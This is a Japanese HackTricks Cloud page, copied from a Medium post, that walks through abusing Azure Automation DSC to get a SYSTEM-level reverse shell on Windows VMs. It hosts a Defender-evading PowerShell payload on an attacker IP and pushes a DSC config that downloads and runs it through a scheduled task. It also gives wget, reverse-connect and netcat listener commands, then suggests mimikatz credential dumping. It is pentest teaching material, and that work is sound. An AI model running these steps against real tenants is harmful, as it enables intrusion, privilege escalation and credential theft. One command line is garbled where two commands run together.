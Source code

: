 # Az - State Configuration RCE

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のgithubリポジトリに送信してください。**

</details>

**この投稿は** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **からコピーされました**

### リモートサーバー（C2）インフラの準備 <a href="#f0fa" id="f0fa"></a>

私はリモートサーバー「40.84.7.74」でNishangのInvoke-PowerShellTcp.ps1ペイロードの簡略版をホストします。ペイロードの名前は「RevPS.ps1」です。Windows DefenderによってNishangスクリプトが削除されるのを防ぐために（おそらくファイルをディスクにドロップしたい場合もあるかもしれません）、ここに軽量版があります。これはDefenderをバイパスします：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。これはKaliボックス上のシンプルなPython Simple Serverによってホストされます。

### ステップ1 - ファイルの作成 <a href="#89de" id="89de"></a>

別のDSC構成ファイルを作成する必要があります。テンプレートはここからダウンロードできます：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。この構成ファイルは、以前使用したファイル書き込み関数を使用します。今回は、リモートサーバーからペイロードをダウンロードして実行するコードが含まれています。また、_ComputerManagementDsc_モジュールから利用可能なスケジュールされたタスク関数を使用しています。スケジュールされたタスク関数は、後で実行とSYSTEM特権の提供において重要な役割を果たします。

また、VMに構成を公開するために使用されるスクリプトもダウンロードします。これはここにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

これらのファイルはテンプレートとして機能します。**変数名とパラメータを使用して、必要な情報を入力する必要があります**。これには、リソース名、ファイルパス、および使用している外部サーバー/ペイロードの名前が含まれます。コード内のコメントを参照してください。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ステップ2 - 構成ファイルの圧縮 <a href="#c2c2" id="c2c2"></a>

2つのファイルを作成したら、**'reverse\_shell\_config.ps1'**ファイルを圧縮してStorage Accountに送信します。
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### ステップ3 — ストレージコンテキストの設定とアップロード <a href="#bed9" id="bed9"></a>

再び、私たちはストレージアカウントのコンテキストを設定します。すでに行っています。私はすでに「**azure-pentes**t」という名前のコンテナを持っているので、ここに私のものを公開します。
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### ステップ4 — Kaliボックスの準備 <a href="#20fb" id="20fb"></a>

Kaliボックスでは、簡単にPowerShellペイロードを_wget_できます。生の逆シェルスクリプトはここにあります：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

逆シェルスクリプトを編集する必要があります。実行されると、Windows VMが接続する先のパラメータを追加します。私の場合、以下を追加します。
```
RevPShell -Reverse 40.84.7.73 443
```
<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### ステップ5 — 設定ファイルの公開 <a href="#9ad6" id="9ad6"></a>

今、私たちは設定ファイルを実行します。私はビジュアルをより良くするためにデスクトップに公開するように設定していますが、どこにでも公開することができます。数分後、逆シェルスクリプトが公開されたことがわかります！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ステップ6 — ペイロードのホストとリスナーの設定 <a href="#c55f" id="c55f"></a>

設定を公開したら、Python SimpleHTTPServerをポート80で同時に起動してペイロードをホストし、接続をキャッチするためにnetcatリスナーも起動できます。
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
スケジュールされたタスクが実行され、私たちのペイロードが取得され、**SYSTEM**レベルの特権で実行されました！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### まとめ <a href="#1ec2" id="1ec2"></a>

これにより、さまざまな可能性が開かれます。**SYSTEM**として実行されるシェルがあるため、mimikatzを使用して資格情報をダンプすることができます（クラウドリソースのEDRの成熟度によっては、リスクがあるかもしれません）。資格情報をダンプすると、これらを他のリソースで再利用する可能性が高くなります。最後に、この設定を1つのVMに制限する代わりに、複数のVMにこの設定を適用する能力があることが大きなポイントです。

以上で、Azure Automation DSCの冒険は終了です！楽しんで学び、独自の創造力を持ち続けることを願っています。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksのスポンサーになる**ことで、**会社の広告を掲載**したり、**最新版のPEASSを入手**したり、**HackTricksをPDFでダウンロード**したりできます。[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしてください🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
